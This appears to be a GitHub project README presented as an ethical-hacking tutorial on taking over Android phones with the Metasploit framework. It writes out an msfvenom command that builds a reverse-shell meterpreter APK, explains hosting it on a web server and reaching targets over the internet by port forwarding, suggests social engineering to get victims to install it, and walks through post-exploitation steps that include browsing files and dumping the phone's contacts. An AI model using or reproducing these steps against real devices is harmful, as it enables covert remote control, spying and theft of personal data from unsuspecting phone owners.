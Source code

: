 # Hacking-Android-devices-using-Metasploit-Framework
Android hacking made easy with Metasploit framework - my project on exploiting vulnerabilities for penetration testing and ethical hacking.

## Introduction

A backdoor is any route by which someone can circumvent normal security measures to access a system. Pieces of software often come with backdoors built into their code so that engineers and developers can bypass their own defenses to fix problems for their users. Backdoor attacks involve cybercriminals using these entry points to gain unauthorized access to data and systems. These incidents often go undetected, at least at first, because the hackers didn’t have to disrupt or brute force their way through any of the cybersecurity systems. Once they’ve got remote access to a network or device, a bad actor can install malware, engage in data theft, and spy on user activity.

Backdoor attacks can be extremely dangerous because they often involve hackers gaining an extremely high level of access and privileges within a system or network. If they can do this without being detected, they can then squat there for months, monitoring user activity.
An exploit is a code that takes advantage of a software vulnerability or security flaw. It is written either by security researchers as a proof-of-concept threat or by malicious actors for use in their operations. When used, exploits allow an intruder to remotely access a network and gain elevated privileges, or move deeper into the network. In some cases, an exploit can be used as part of a multi-component attack. Instead of using a malicious file, the exploit may instead drop another malware, which can include backdoor Trojans and spyware that can steal user information from the infected systems.

## Features of Metasploit Framework:

The Metasploit framework is a very powerful tool which can be used by cybercriminals as well as ethical hackers to probe systematic vulnerabilities on networks and servers. Because it’s an open-source framework, it can be easily customized and used with most operating systems.

Due to its wide range of applications and open-source availability, Metasploit is used by everyone from the evolving field of DevSecOps pros to hackers. It’s helpful to anyone who needs an easy to install, reliable tool that gets the job done regardless of which platform or language is used. The software is popular with hackers and widely available, which reinforces the need for security professionals to become familiar with the framework even if they don’t use it.

1.	Exploit: Tool used to take advantage of system weaknesses.
2.	Payloads: Sets of Malicious code.
3.	Auxiliary functions: Supplementary tools and commands
4.	Encoders: Used to convert code to information
5.	Listeners: Malicious software that hides in order to gain access
6.	Shellcode: Code that is programmed to activate once inside the target.
7.	Post-exploitation code: Helps test deeper penetration once inside
8.	Nops: An instruction to keep the payload from crashing. 

IMPLEMENTATION:


1.	Generating a Payload with msfvenom
Start Kali Linux so that we may generate an apk file as a malicious payload. We need to check our local IP that turns out to be ‘192.168.0.112’. You can also hack an Android device through Internet by using your Public/External IP in the LHOST and by port forwarding.
 
 ![image](https://user-images.githubusercontent.com/81562207/229279048-8c5be979-a8ca-4f33-8755-44de904783ae.png)

After getting your Local host IP use msfvenom tool that will generate a payload to penetrate the Android device. Type command:
#msfvenom –p android/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=4444 R> /var/www/html/ehacking.apk
Where:
-p indicates a payload type
android/metepreter/reverse_tcp specifies a reverse meterpreter shell would come in from a target Android device
LHOST is your local IP
LPORT is set to be as a listening port
R> /var/www/html would give the output directly on apache server
apk is the final name of the final output


2.	Launching an Attack
Before launching attack, we need to check the status of the apache server. Type command:
#service apache2 status
 
![image](https://user-images.githubusercontent.com/81562207/229279152-6b342062-523d-465a-830b-a9df37590b99.png)


All seems set, now type msfconsole. Use multi/handler exploit, set payload the same as generated prevoisly, set LHOST and LPORT values same as used in payload and finally type exploit to launch an attack.

![image](https://user-images.githubusercontent.com/81562207/229279200-5c74b081-2753-429c-9b2a-33892ecd2960.png)
 
In real life scenarios, some social engineering techniques can be used to let the target download the malicious apk file. For demonstration we are just accessing the attacker machine to download the file in the Android device. After downloading it successfully, select the app to install.

![image](https://user-images.githubusercontent.com/81562207/229279271-af872994-d2c1-42e3-9a75-51ab02caf6d2.png)

Once the user installs the application and runs it, the meterepreter session would be opened immediatly at the attacking side.

![image](https://user-images.githubusercontent.com/81562207/229279465-8336c901-4c06-47ff-a8a7-7105a96e3a52.png)


3.	Post Exploitation
Type “background” and then “sessions” to list down all the sessions from where you can see all the IPs connected to the machine. 

![image](https://user-images.githubusercontent.com/81562207/229279529-ca376327-0434-43b2-b1a4-19c526f87584.png)
 
You can interact with any session by typing sessions -i [session ID]. After entering the session, type “help” to list down all the commands we can put forward in this session. You can see some file system commands that are helpful when you’re trying to go after some sensitive information or data. By using these, you can easily download or upload any file or information.

![image](https://user-images.githubusercontent.com/81562207/229279569-43fff339-2ee2-4fd5-85dd-f54731ad92d6.png)

![image](https://user-images.githubusercontent.com/81562207/229279600-a1140b0c-3768-4558-83cd-5ab04dac5b73.png)



4.	Extracting Contacts from an Android Device
Now let extract some contacts from the target device by typing “dump” and double tab.
 
![image](https://user-images.githubusercontent.com/81562207/229279667-bdb86f44-283a-4077-8daf-a59b1254f5b3.png)

It will extract all the contacts from the Android device and will save it in our local directory. To see this file type “ls” and “cat [file_name]”.
